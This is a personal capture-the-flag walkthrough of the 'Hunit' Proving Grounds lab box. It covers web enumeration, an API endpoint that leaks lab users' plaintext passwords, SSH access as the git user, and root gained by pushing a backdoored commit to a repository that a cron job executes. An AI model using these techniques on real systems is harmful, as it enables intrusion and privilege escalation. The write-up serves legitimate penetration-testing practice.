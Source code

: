 # Hunit Walkthrough
Name: Hunit
Date:  24/09/2022
Difficulty:  Medium
Goals:  OSCP 3/5 Medium in done walkthrough or writeup in a day  - Failed - busy SQLi learning, finish up next day.
Learnt:
- Comments in a Proving Grounds box..
- api in wordlists, but not api/!
- Tireness leads to bad fixation leads rabbit hole in the brain
- Git-filration 
- Git-filration Backdooring as PrivEsc

![](wackamole.png)

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/Hunit/Screenshots/ping.png)

users.txt:
```bash
curl http://192.168.141.125:8080 > 8080.html
cat 8080.html| grep -e "By " | awk -Fstrong '{print $2}' | tr -d '></' > users.txt
```

[[options-method-http___192.168.141.125_18030]] - post allowed

## Exploit
Hint Used
```
Scan all TCP ports. Find and enumerate a web application. Locate an endpoint on it that will help with the SSH service.
```

[[18030-script.js]] 

I am getting tired. Fixated too much on the JS. There is a comment with an /api/
![](apiconfused.png)
made [[test.txt]] to test if it is my fault
![](apiisnotin!.png)

ok...
![](ok.png)
/api/user/
```
[{"login":"rjackson","password":"yYJcgYqszv4aGQ","firstname":"Richard","lastname":"Jackson","description":"Editor","id":1},{"login":"jsanchez","password":"d52cQ1BzyNQycg","firstname":"Jennifer","lastname":"Sanchez","description":"Editor","id":3},{"login":"dademola","password":"ExplainSlowQuest110","firstname":"Derik","lastname":"Ademola","description":"Admin","id":6},{"login":"jwinters","password":"KTuGcSW6Zxwd0Q","firstname":"Julie","lastname":"Winters","description":"Editor","id":7},{"login":"jvargas","password":"OuQ96hcgiM5o9w","firstname":"James","lastname":"Vargas","description":"Editor","id":10}] 

dademola:ExplainSlowQuest110

```


Feel annoyed at how CTF-y this one has been. Especially as the privEsc went well without Walkthrough till I ran into the Git shell and this is really cool PrivEsc

## Foothold
Git user's ssh
![](sshkey.png)

## PrivEsc

![](git-server.png)

oh god.. return the next day to finish the box up and really enjoy the PrivEsc...
git sHELL:
![](ohgod.png)

```bash
git clone file:///git-server/
git log
git config --global user.name ""
git config --global user.name "user@Nomail.(none)" # Without email
```

![](contents.png)

```bash
[dademola@hunit git-server]$ git log
commit b50f4e5415cae0b650836b5466cc47c62faf7341 (HEAD -> master, origin/master, origin/HEAD)
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 21:05:58 2020 -0300

    testing

commit c71132590f969b535b315089f83f39e48d0021e2
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 20:59:48 2020 -0300

    testing

commit 8c0bc9aa81756b34cccdd3ce4ac65091668be77b
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 20:54:50 2020 -0300

    testing
/path/
commit 574eba09bb7cc54628f574a694a57cbbd02befa0
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 20:39:14 2020 -0300

    Adding backups

commit 025a327a0ffc9fe24e6dd312e09dcf5066a011b5
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 20:23:04 2020 -0300

    Init

```
![](injection.png)

![](croncron.png)

Practice scp file transfer for good measure see as I has already found the id_rsa and I should rotated file transfer methods.

![](stillfancyscp.png)

Git repo exfiltration through ssh.
```bash
GIT_SSH_COMMAND='ssh -i /path/id_rsa -p 43022' git clone git@$ip:/git-server
```

![](gitdataexfiltration.png)

Git repo inflitration through ssh
```bash
GIT_SSH_COMMAND='ssh -i /path/id_rsa -p 43022' git push origin master
```

![](root.png)

This was AWESOME!